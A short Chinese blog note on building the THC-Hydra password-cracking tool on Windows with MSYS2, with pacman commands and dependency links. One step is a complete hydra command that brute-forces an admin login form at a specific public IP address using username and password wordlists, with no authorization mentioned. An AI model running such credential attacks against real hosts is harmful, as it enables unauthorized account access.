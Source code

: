 ```yaml
---
author: XhstormR
categories:
- Notes
date: 2019-03-01T14:11:28+08:00
title: 构建 hydra
---
```


<!--more-->

Updated on 2019-03-01

> [MSYS2](https://mirrors.ustc.edu.cn/help/msys2.html)
>
> [hydra](https://github.com/vanhauser-thc/thc-hydra/archive/master.zip)

## Step
```bash
D:\Work\Download\thc-hydra-master>

pacman -Syu
pacman -S --noconfirm --needed gcc make openssl-devel

./configure && make

hydra -V -F -L username.txt -P password.txt -o ok.txt -t 20 'http-post-form://222.69.159.53:80/cm_admin/login.aspx:txtloginid=^USER^&txtpsw=^PASS^:F=password incorrect!:H=User-Agent\: wget'
```

```bash
pacman -Ss gcc #搜索软件包
pacman -Sg mingw-w64-x86_64-toolchain #查看软件组

pacman -Fs jq.exe #搜索文件
```

## Reference
* 依赖：
  * msys-2.0.dll：[src](https://mirrors.ustc.edu.cn/msys2/msys/sources/msys2-runtime-3.0.7-3.src.tar.gz) | [bin](https://mirrors.ustc.edu.cn/msys2/msys/x86_64/msys2-runtime-3.0.7-3-x86_64.pkg.tar.xz)
  * msys-z.dll：[src](https://mirrors.ustc.edu.cn/msys2/msys/sources/zlib-1.2.11-1.src.tar.gz) | [bin](https://mirrors.ustc.edu.cn/msys2/msys/x86_64/zlib-1.2.11-1-x86_64.pkg.tar.xz)
  * msys-ssl-1.1.dll, msys-crypto-1.1.dll：[src](https://mirrors.ustc.edu.cn/msys2/msys/sources/openssl-1.1.1.c-1.src.tar.gz) | [bin](https://mirrors.ustc.edu.cn/msys2/msys/x86_64/libopenssl-1.1.1.c-1-x86_64.pkg.tar.xz)
* [MSYS2](https://www.msys2.org)
